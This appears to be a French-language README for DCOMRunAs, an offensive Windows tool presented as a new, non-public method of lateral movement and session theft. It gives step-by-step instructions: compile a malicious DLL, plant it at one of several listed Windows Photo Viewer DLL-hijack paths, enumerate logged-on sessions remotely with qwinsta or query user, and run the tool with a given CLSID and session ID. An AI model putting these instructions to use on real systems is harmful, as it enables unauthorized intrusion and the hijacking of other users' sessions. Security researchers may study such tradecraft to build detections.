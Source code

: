 # DCOMRunAs

DCOMRunAs est une nouvelle méthode de mouvement latéral et de vol de session, non publique. Elle repose sur l'instantiation de classes DCOM dans la sessions d'utilisateurs connectés sur une machine, classes DCOM chargeant une DLL non existante à un endroit du disque inscriptible.

## How

1. Compiler une DLL malveillante qui effectuera les actions que vous voulez faire faire à l'utilisateur cible.

2. La nommer et la déposer à l'endroit adéquat sur le disque de la machine cible.

3. Trouver l'identifiant de session correspondant à l'utilsateur souhaité. Lancer une de ces commandes à distance, dans un `runas /netonly` :

```
qwinsta /server:<remote_host>
query user /server:<remote_host>
```

4. Lancer l'outil avec le bon CLSID et le bon identifiant de session:

```
C:\> DCOMRunAs.exe <sess_id> <CLSID> [remote_host_if_remote]
```

## CLSID utilisables

* `00F2B433-44E4-4D88-B2B0-2698A0A91DBA` (PhotoAcqHWEventHandler)
    * Placer la DLL à un des endroits suivants :
	    * `C:\Program Files\Windows Photo Viewer\OLEACC.dll`
	    * `C:\Program Files\Windows Photo Viewer\PROPSYS.dll`
	    * `C:\Program Files\Windows Photo Viewer\STI.dll`
	    * `C:\Program Files\Windows Photo Viewer\WINMM.dll`
	    * `C:\Program Files\Windows Photo Viewer\dwmapi.dll`
	    * `C:\Program Files\Windows Photo Viewer\UxTheme.dll`
	    * `C:\Program Files\Windows Photo Viewer\VERSION.dll`

